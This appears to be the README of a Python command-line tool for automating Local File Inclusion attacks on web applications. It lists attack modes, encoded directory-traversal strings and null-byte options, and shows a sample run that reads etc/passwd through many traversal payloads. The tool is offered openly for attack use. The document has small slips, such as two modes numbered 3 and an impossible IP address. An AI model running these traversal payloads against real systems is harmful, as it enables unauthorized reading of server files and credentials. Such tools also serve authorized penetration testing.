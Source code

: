 # fi-cyberspace-scan

Local File Inclusion CLI tool written in Python to speed up LFI checks. Similar to using Burp or ZAP, but less bulky and resource intensive. Plus it's in color for easy readability. File lists are included in the app, ranging from basic to verbose. Set different **"Cyber-Attack Modes"**, **Encoded Path Types**, **Deep Directory Traversal** or **NULL Bytes**.

Valid LFI results are based on HTTP response codes, then HTTP response sizes. A non-200 will reult in a failure, and a reflected byte size different from a pre-tested basline will result in a valid find. Valid finds will be displayed in terminal output.

Before executing the attack, you'll be prompted with the set parameters, then can either confirm & execute OR exit the program. All parameters are preset besides **Target**. Adding these flags will update the set parameters, prior to exectuion.

___

## Usage:

```
-----------------------------Usage-------------------------------
Target URL:            -t --target
   Set the full HTTP Path/URI in which you'd like to test.
   LFI string will be appended to whatever you set as this argument.

Cyber-Attack Modes:    -m --mode  
   3: ICE-Breaker            Hardwired LFI Validator with Custom Encoded path types. Deepspace & %00 Disabled.
   2: Mole-IX                Intermediate attack list for even the best Cyberspace Operators.
   3: Kuang-Grade-Mark-11    Top notch verbose attack. Fires off a large list of interesting files.
   4: WIN-Construct          Targeted Windows OS attack. Includes common Windows file list.

Path Type:             -p --path 
   Set the directory traversal path type if it's encoded.
   Set as ONE instance in single quotes ('..%2f' , '..\\' , '%%32%65' ,etc) 
   Deafult is set to: ../ 

Deep Space Traversal:  -d --deepspace 
   Traverse deep within the filesystem at 9 directories deep.
   Without this flag set, the default 5 deep will run.
   Boolean flag. Default is FALSE.

Null-Byte:             -n --nullbyte 
   Appends a null-byte %00 to every request.
   Boolean flag. Default is FALSE.

Examples:
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?=
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?= -m ICE-Breaker 
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?= -m 4 -p '..252f' -n 
root@case:/#./fi-cyberspace-scan.py -t http://127.0.0.1/cyber.php?= -m kuang-grade-mark-11 -d
-----------------------------------------------------------------
```

Here is a sample output for the ICE-Breaker mode, which tests a few basic directories using a variety of long encoded paths. In this case a valid hit on etc/password found in the root **/** and 4 directories deep **../../../../** encoded and not encoded.

With this info, we can use other cyber-attack modes, setting path type to **../** or to other valid encoded path types.

```
root@kali:/home/scripts# python ok.py -t http://172.28.1227.5/cyber.php?space= -m 1
-----------------------------------------------------------------
'___ *  .    '   \|/     *   .   '      + .----. .  '  -*-    
|===|     ' __   -*-  FI Cyberspace-Scan  ||'''|_       ' ___ 
|= =|__'  _|==|_ /|\  ___     * .   __   _||= =|.| *   __|===|
|= =|::| |.|:|==|____|= =| .   ____|==| |::|= =|.|__ '|::|= =|
|=|=|::|_|.|:|==| :: |_.-`-.__|----|==|_|::|=|=|.|::|_|::|= =|
-----------------------Hardwired Options-------------------------
TARGET URL                   : http://172.28.1227.5/cyber.php?space=
CYBER ATTACK MODE            : ICE-Breaker
PATH TYPE                    : Custom Encoded
DEEP SPACE TRAVERSAL         : False
NULL-BYTE %00                : False
-----------------------------------------------------------------
DO NOT USE AGAINST UNAUTHORIZED INTRUSION COUNTERMEASURES ELECTRONICS
Execute Cyberspace Run? [Y/n]: Y

-----------------------------------------------------------------
It seems  448  is the common reflected byte size.
Digging into unique reflection sizes.
-----------------------------------------------------------------
[+] - Something interesting found with etc/passwd in 
     --Path:  / bytes: 2161
     --Path:  ../../../../ bytes: 2161
     --Path:  %2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f bytes: 2161
     --Path:  %2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f bytes: 2161
     --Path:  %2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f bytes: 2161
     --Path:  %2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f bytes: 2161
     --Path:  %2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f bytes: 2161
     --Path:  %2e%2e/%2e%2e/%2e%2e/%2e%2e/ bytes: 2161
     --Path:  %2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/ bytes: 2161
     --Path:  %2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/ bytes: 2161
     --Path:  %2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/ bytes: 2161
     --Path:  %2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/ bytes: 2161
     --Path:  ..%2f..%2f..%2f..%2f bytes: 2161
     --Path:  ..%2f..%2f..%2f..%2f..%2f bytes: 2161
     --Path:  ..%2f..%2f..%2f..%2f..%2f..%2f bytes: 2161
     --Path:  ..%2f..%2f..%2f..%2f..%2f..%2f..%2f bytes: 2161
     --Path:  ..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f bytes: 2161
[-] - Nothing found in etc/passwd%00
---snip---
```
